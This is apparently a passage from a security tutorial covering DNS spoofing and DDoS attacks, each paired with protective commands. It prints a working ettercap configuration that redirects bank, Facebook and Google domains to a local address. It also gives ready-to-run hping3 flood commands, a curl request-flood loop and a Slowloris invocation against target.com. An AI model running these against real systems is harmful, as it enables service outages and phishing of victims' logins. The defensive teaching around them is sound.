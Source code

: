 ### 🌊 DNS Spoofing

**Attack Scenario**:
```bash
# /etc/ettercap/etter.dns
# DNS spoofing configuration

www.bank.com      A   192.168.1.100
*.facebook.com    A   192.168.1.100
*.google.com      A   192.168.1.100
```

**Protection**:
```bash
# DNS over HTTPS (DoH)
nslookup google.com 1.1.1.1

# DNS over TLS (DoT)
dig @1.1.1.1 +tls google.com

# DNSSEC validation
dig +dnssec google.com
```

### 💥 DDoS Attacks

#### **Volumetric Attacks**
```bash
# UDP Flood
hping3 -2 -p 80 --flood target.com

# ICMP Flood
hping3 -1 --flood target.com

# SYN Flood
hping3 -S -p 80 --flood target.com
```

#### **Application Layer Attacks**
```bash
# HTTP GET Flood
for i in {1..1000}; do
  curl -H "User-Agent: Bot$i" http://target.com/ &
done

# Slowloris Attack
slowloris.py target.com -p 80 -s 1000
```

**DDoS Protection**:
```bash
# Rate limiting (iptables)
iptables -A INPUT -p tcp --dport 80 -m limit --limit 25/minute --limit-burst 100 -j ACCEPT

# SYN flood protection
echo 1 > /proc/sys/net/ipv4/tcp_syncookies
echo 2048 > /proc/sys/net/ipv4/tcp_max_syn_backlog

# Connection tracking
iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
iptables -A INPUT -m conntrack --ctstate NEW -m limit --limit 50/second --limit-burst 100 -j ACCEPT
```

